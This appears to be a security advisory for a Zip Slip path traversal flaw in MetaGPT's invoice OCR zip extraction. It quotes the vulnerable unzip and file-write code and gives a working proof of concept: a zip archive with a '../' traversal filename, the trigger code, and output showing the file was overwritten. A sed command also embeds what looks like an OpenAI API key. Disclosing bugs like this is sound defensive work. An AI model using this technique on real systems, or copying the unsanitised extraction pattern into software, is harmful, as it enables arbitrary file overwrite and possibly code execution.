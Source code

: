 ```yaml
---
layout: post
title:  "Zipslip when parsing invoice zip file via InvoiceOCRAssistant in metagpt"
date:  2024-06-24 10:31:06 +0800
categories: file-overwrite
---
```


## Name

> Zipslip when parsing invoice zip file via InvoiceOCRAssistant

## Weakness

>  CWE-23: Relative Path Traversal

## Severity

> High (8.8)

## Version

> 0.8.1

## Description

In [`receipt_assistant`](https://docs.deepwisdom.ai/main/en/guide/use_cases/agent/receipt_assistant.html), Metagpt supports OCR recognition of invoice files in pdf, png, jpg, and zip formats. And the class [`InvoiceOCR`](https://github.com/geekan/MetaGPT/blob/9f8f0a27fd3e7d6a7f6fcf40103a94829533bdc2/metagpt/actions/invoice_ocr.py#L31C7-L31C17) is responsible for recognizing the invoice files. When the files is compressed with zip format, [`InvoiceOCR._unzip`](https://github.com/geekan/MetaGPT/blob/9f8f0a27fd3e7d6a7f6fcf40103a94829533bdc2/metagpt/actions/invoice_ocr.py#L63) is used to extract the files in zip file. However, the file name in zip file is not sanitized and appended to dest path directly, could cause zipslip attacks. It's possible to overwrite files in victims' mechine, causing code execution attacks.

[InvoiceOCR._unzip#L78](https://github.com/geekan/MetaGPT/blob/9f8f0a27fd3e7d6a7f6fcf40103a94829533bdc2/metagpt/actions/invoice_ocr.py#L78) function:

```
@staticmethod
async def _unzip(file_path: Path) -> Path:
    """Unzip a file and return the path to the unzipped directory.

    Args:
        file_path: The path to the zip file.

    Returns:
        The path to the unzipped directory.
    """
    file_directory = file_path.parent / "unzip_invoices" / datetime.now().strftime("%Y%m%d%H%M%S")
    with zipfile.ZipFile(file_path, "r") as zip_ref:
        for zip_info in zip_ref.infolist():
            # Use CP437 to encode the file name, and then use GBK decoding to prevent Chinese garbled code
            relative_name = Path(zip_info.filename.encode("cp437").decode("gbk"))
            if relative_name.suffix:
                # unsafe path appending
                full_filename = file_directory / relative_name
                await File.write(full_filename.parent, relative_name.name, zip_ref.read(zip_info.filename))

    logger.info(f"unzip_path: {file_directory}")
    return file_directory
```

[`File.write#L39`](https://github.com/geekan/MetaGPT/blob/9f8f0a27fd3e7d6a7f6fcf40103a94829533bdc2/metagpt/utils/file.py#L39) function is reponsible for writing the file content in zip file to target path. In Line 39, `full_path = root_path / filename`, the `filename` is not santized, filename such as `../../../../../../../../test.txt` in zip file will be appended to `root_path`, causing path traversal and file overwrite. 

```
async def write(cls, root_path: Path, filename: str, content: bytes) -> Path:
    """Write the file content to the local specified path.

    Args:
        root_path: The root path of file, such as "/data".
        filename: The name of file, such as "test.txt".
        content: The binary content of file.

    Returns:
        The full filename of file, such as "/data/test.txt".

    Raises:
        Exception: If an unexpected error occurs during the file writing process.
    """
    root_path.mkdir(parents=True, exist_ok=True)
    full_path = root_path / filename
    async with aiofiles.open(full_path, mode="wb") as writer:
        await writer.write(content)
        logger.debug(f"Successfully write file: {full_path}")
        return full_path
```

## Proof of Concept

Firstly, let's create a zip file containing relative file name, and save as `auth.zip`:

```
zip auth.zip ../../../../../../../home/kali/test.py
```

Then, install metagpt and it's ocr extras:

```
pip install --upgrade metagpt
pip install --upgrade 'metagpt[ocr]'
```

After installed, we need to init metagpt with our openai key according to [official documentation](https://github.com/geekan/MetaGPT?tab=readme-ov-file#configuration):

```
# create 
> metagpt --init-config

# fill your openai key, this key is for testing
> sed -i 's/YOUR_API_KEY/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/g' /root/.metagpt/config2.yaml
```

Before attacks, let's check the `/home/kali/test.py` is empty path

```
> ls -la /home/kali/test.py
ls: cannot access '/home/kali/test.py': No such file or directory
```

### Start attack

Run following snippets from [offical tutorial](https://docs.deepwisdom.ai/main/en/guide/use_cases/agent/receipt_assistant.html#example-1) to parse and recognize our `auth.zip` file:

```
from metagpt.roles.invoice_ocr_assistant import InvoiceOCRAssistant, InvoicePath
from metagpt.schema import Message

role = InvoiceOCRAssistant()
await role.run(Message(content="Invoicing date", instruct_content=InvoicePath(file_path="auth.zip")))
```

Now let's check the file is overwritten successfully:

```
> ls -la /home/kali/test.py
-rw-r--r-- 1 root root 12 Jun 24 14:50 /home/kali/test.py
```

## Colab

Tested on google colab: [https://colab.research.google.com/drive/1ujE5yqxcB_RlRtXMfNSSeTYPLy6DMDwQ?usp=sharing](https://colab.research.google.com/drive/1ujE5yqxcB_RlRtXMfNSSeTYPLy6DMDwQ?usp=sharing)

![poc](https://live.staticflickr.com/65535/53811891297_68e84388c8_h.jpg)

## Impact

This vulnerability can have severe consequences. If victims parse and recognize an malicious zip file, zipslip can be achieved to overwrite files in victims mechine, causing potential code execution attack.

## Occurrences

[_unzip#L79](https://github.com/geekan/MetaGPT/blob/9f8f0a27fd3e7d6a7f6fcf40103a94829533bdc2/metagpt/actions/invoice_ocr.py#L79)

[write#L39](https://github.com/geekan/MetaGPT/blob/9f8f0a27fd3e7d6a7f6fcf40103a94829533bdc2/metagpt/utils/file.py#L39)

